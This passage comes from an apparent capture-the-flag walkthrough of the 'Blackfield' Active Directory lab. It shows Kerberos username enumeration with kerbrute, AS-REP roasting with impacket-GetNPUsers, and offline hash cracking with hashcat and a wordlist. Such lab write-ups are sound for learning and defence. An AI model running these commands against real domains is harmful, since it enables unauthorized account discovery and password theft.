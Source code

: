 <br/>

We can save them into a file and begin looking for valid `usernames` using a tool called `kerbrute`.    

```bash
kerbrute userenum -d BLACKFIELD.local  --dc BLACKFIELD.local users_clean
```

Found valid `usernames`.  

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123083937.png" alt="1" style="width:700px; height:auto;">
<br/>

We look for `users` who can be `asReproastable` using `GetNPUsers` from `impacket`.    

```
 impacket-GetNPUsers BLACKFIELD.local/ -usersfile testUsers -dc-host BLACKFIELD.local
```

We get a hit, user' `hash` can be cracked offline.    

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123084301.png" alt="1" style="width:700px; height:auto;">
<br/>

We save the `hash` into a file and run `hashcat`.    

```bash
hashcat CrackMapExec/hash /usr/share/wordlists/rockyou.txt
```
